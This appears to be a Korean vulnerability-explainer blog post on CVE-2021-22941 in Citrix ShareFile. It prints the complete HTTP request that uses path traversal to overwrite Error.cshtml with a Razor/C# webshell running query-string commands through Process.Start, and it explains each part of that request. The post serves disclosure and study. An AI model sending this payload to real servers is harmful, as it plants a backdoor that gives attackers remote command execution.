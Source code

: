 ```yaml
---
title: "[하루한줄] CVE-2021-22941: Citrix ShareFile RCE Webshell"
author: Fabu1ous
tags: [Fabu1ous, rce, webshell]
categories: [1day1line]
date: 2022-03-08 14:00:00
cc: true
index_img: /img/1day1line.png


---
```




## URL

[PROPHET SPIDER Exploits Citrix ShareFile Remote Code Execution Vulnerability CVE-2021-22941 to Deliver Webshell](https://www.crowdstrike.com/blog/prophet-spider-exploits-citrix-sharefile/)



## **Target**

Citrix ShareFile storage zones controller < 5.11.20



## **Explain**

PROPHET SPIDER라는 이름으로 알려진 해커 그룹이 Microsoft Internet Information Service (IIS) 웹서버를 공격하기 위해 사용한 취약점 CVE-2021-22941의 상세 정보가 공개되었습니다. 

Citrix ShareFile의 부적절한 접근제어로 인해 해커는 원격 서버에 http request를 보내는 것으로 임의 파일을 원하는 내용으로 덮어 쓸 수 있습니다. 이를 악용하면 타겟 서버에서 임의 코드 실행을 할 수 있습니다.  

```http
POST /upload.aspx?uploadid=%40using+System.Diagnostics%3B%40%7Bint+idx0%3D+0%3Bstring+str_idx0+%3D+idx0.ToString%28%29%3B+int+idx1+%3D+1%3Bstring+str_idx1+%3D+idx1.ToString%28%29%3Bstring+cmd+%3D+Request.QueryString%5Bstr_idx0%5D%3Bstring+arg+%3D+Request.QueryString%5Bstr_idx1%5D%3BProcess.Start%28cmd%2Carg%29%3B%7D%2F..%2F..%2FConfigService%5CViews%5CShared%5CError.cshtml&bp=123&accountid=123
```

위는 Citirx ShareFile의 취약점을 트리거해서 webshell을 업로드하는 http request입니다. 해당 http request는 아래 3가지 핵심요소가 있습니다.

* uploadid

  `/upload.aspx` URI는 ShareFile 업로드에 사용되며 일반적으로 `uploadid`라는 파라미터로 업로드 대상을 명시합니다. 위 http request의 경우에는 해당 파라미터에 webshell이 포함되어있습니다.

* Razor syntax(`@<>`, `@{}`)

  Razor syntax (`@{}`)를 사용해 C# 코드블록을 사용할 수 있습니다. 위 http request의 경우에는 C# 코드블록에 `Process.Start(cmd,arg);`를 포함해 백도어를 제공합니다.

* path traversal

  path traversal 취약점이 있어 Error.cshtml 파일을 payload로 덮어 쓸 수 있습니다. 